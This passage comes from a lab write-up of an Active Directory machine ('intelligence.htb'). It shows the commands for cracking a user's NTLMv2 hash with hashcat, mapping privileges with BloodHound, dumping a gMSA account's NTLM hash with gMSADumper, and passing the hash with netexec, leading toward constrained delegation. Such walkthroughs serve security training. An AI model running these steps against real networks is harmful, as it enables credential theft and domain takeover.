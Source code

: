             > Modifying ADIDNS Zones
            > There are two primary methods of remotely modifying an ADIDNS zone. The first involves using the RPC based management tools. These tools generally require a DNS administrator or above so I won’t bother describing their capabilities. The second method is DNS dynamic updates. Dynamic updates is a DNS specific protocol designed for modifying DNS zones. Within the AD world, dynamic updates is primarily leveraged by machine accounts to add and update their own DNS records.

            -   Source: <https://www.netspi.com/blog/technical-blog/network-penetration-testing/exploiting-adidns/>


### Cracking Teds Hash using Hashcat: {#cracking-teds-hash-using-hashcat}

-   **I use hashcat to cracks Ted's password**:
    -   `hashcat -m 5600 ted.hash ~/Wordlists/rockyou.txt`
    -   {{< figure src="/ox-hugo/2024-09-29-102210_.png" >}}


### Running Bloodhound as Ted Graves: {#running-bloodhound-as-ted-graves}

-   As we have Ted's creds we can run the python collector for bloodhound.
    -   `python3 bloodhound.py -dc dc.intelligence.htb -c All -u $user -p $pass -d intelligence.htb -ns $box`
    -   We can see that Ted part of the `ITSUPPORT` group and this group has the ability to read the `GMSAPassword` of the host `SVC_INT$`:
        -   {{< figure src="/ox-hugo/2024-09-29-104906_.png" >}}
    -   Looking further we can see that the host `SVC_INT$` has the constrained delegation privilege over the Domain Controller `DC.INTELLIGENCE.HTB` this gives us a clear attack path as we can perform a constrained delegation attack.
        -   {{< figure src="/ox-hugo/2024-09-29-163508_.png" >}}


### Using `gMSADumper.py` to dump the `gMSA` Password: {#using-gmsadumper-dot-py-to-dump-the-gmsa-password}

-   **I dump the** `gMSA` **Password using** [gMSADumper.py](https://github.com/micahvandeusen/gMSADumper)
    -   `python3 gMSADumper.py -u $user -p $pass -d intelligence.htb`
    -   {{< figure src="/ox-hugo/2024-09-29-153724_.png" >}}
        -   The first line is the `NTLM` hash of the `SVC_INT$` machine account.

-   **I verify the hash is valid using netexec**:
    -   `netexec smb $box -u svc_int$ -H $hash --shares`
        -   {{< figure src="/ox-hugo/2024-09-29-154021_.png" >}}


#### What is gMSA &amp; gMSA Password?: {#what-is-gmsa-and-gmsa-password}

-   **gMSA (Group Managed Service Account)**:
    -   A `gMSA` is a type of service account in Active Directory that is designed to enhance security and reduce administrative overhead for service accounts. They provide automatic password management &amp; simplified service principal name (SPN) management.
